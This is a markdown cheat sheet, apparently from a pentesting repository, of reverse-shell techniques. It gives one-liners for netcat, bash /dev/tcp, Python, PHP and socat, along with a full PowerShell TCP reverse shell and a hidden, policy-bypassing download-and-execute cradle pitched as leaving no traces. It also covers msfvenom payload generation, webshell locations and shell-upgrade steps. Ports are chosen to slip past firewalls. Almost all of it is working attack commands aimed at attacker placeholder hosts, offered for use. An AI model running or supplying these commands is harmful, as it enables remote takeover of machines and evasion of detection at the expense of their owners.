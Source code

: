 # All about reverse shells

* Try always using ports: 80 or 443 if open

# Serving

To upload malicious reverse shell code it is necessary to host this code

Try using ports 80 and 443 for this reason.

```
python -m SimpleHTTPServer 443
python3 -m http.server 443

php -S 0.0.0.0:443

ruby -run -e httpd . -p 443

busybox httpd -f -p 443
```

Refer for more to: https://blog.certcube.com/file-transfer-cheatsheet-for-pentesters/


# Reverse shells

All of those methods assume that necessary programs like nc, python, php and etc are installed on target hosts.

* Firewall allow mostly outbound connections, that's why rever shell is so popular.
* You always need a listener to connect a rev shell to
`nc -lvnp <PORT>`
* by <PORT> selection try using ports 80, 443 because they are mostly not blocked by firewalls

## Netcat

* Necat: 
```
# Linux
nc <IP> <PORT> -e /bin/bash

# Windows
nc.exe <IP> <PORT> -e cmd.exe

```

## Bash

`bash -i >& /dev/tcp/ATTACKER-IP/ATTACKER-PORT 0>&1`

## Powershell

This script is tested on most windows machines and should work fine.

```
#replace <IP_ATTACKER> with target ip, so it is going to look something like this: TCPClient('10.231.12.44',443)

$client = New-Object System.Net.Sockets.TCPClient('<IP_ATTACKER>',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PSReverseShell# ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}$client.Close();

launch on target
```

Launch the above script directly or save on local attacking maching and call it from powershell like that to execute in memory and leave no traces

`powershell.exe -NoP -NonI -W Hidden -ExecutionPolicy Bypass "IEX(New-Object Net.WebClient).downloadString('http://192.168.219.xxx/raw.ps1')"`

`powershell.exe -NoP -NonI -W Hidden -ExecutionPolicy Bypass -File shell.ps1`

## Python

* Python3: 

`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER-IP",ATTACKER-PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

and without subprocess

`python -c 'import socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("attacking-ip",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.system("/bin/sh -i")'`

## PHP

```
php -r '$sock=fsockopen("ATTACKER-IP",ATTACKER-PORT);exec("/bin/sh -i <&3 >&3 2>&3");'
(Assumes TCP uses file descriptor 3. If it doesn't work, try 4,5, or 6)
```

### PHP webshells

Nice collection here: https://github.com/JohnTroony/php-webshells

I TAKE ABSOLUTELY NO RESPONSIBILITY FOR ANY OF THOSE SHELLS. CHECK their CODE BEFORE USING!
THE ONLY SAFE SHELL is within kali linux webshells.

```
$ webshells
> webshells ~ Collection of webshells
/usr/share/webshells
├── asp
├── aspx
├── cfm
├── jsp
├── laudanum -> /usr/share/laudanum
├── perl
└── php

```

## Socat

* Socat is not well know but is super useful if able to launch
* Once launche socat can provide a fully interactive shell just like SSH

Here is bind shell example:

```
#On Victim with IP address 10.99.66.88 initiate a listener:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane TCP4-LISTEN:3333,reuseaddr,fork,ignoreeof

#from attacker
socat file:`tty`,raw,echo=0 tcp:10.99.66.88:3333
```

## Webshell

In Kali it is integrated:

`$ webshells`

After that you shall be placed into the directory with webshells

```
> webshells ~ Collection of webshells
/usr/share/webshells
├── asp
├── aspx
├── cfm
├── jsp
├── laudanum -> /usr/share/laudanum
├── perl
└── php

```

Here you have a rich selection of all possible shells.

## Reverse Shell bytecode generation with MSFVENOM

Use for any available payload.

`msfvenom -p cmd/unix/reverse_netcat LHOST=10.10.xxx.xxx LPORT=443 -f python`

`msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888`

# Shell Upgrade

* The bind/reverse shell is not always fully interactive but can be made using like that using Python trick:

1. Insert one those lines into victim CLI

<code> python -c 'import pty; pty.spawn("/bin/bash")' </code><br>
<code> python3 -c 'import pty;pty.spawn("/bin/bash")' </code>

* All subsequent actions are performed on attack client

2. press Ctrl + Z to pause shell on your attack client

3. stty raw -echo 

4. fg enter enter

5. export TERM=xterm

As result you should get a fully interactive shell with history and all other goodies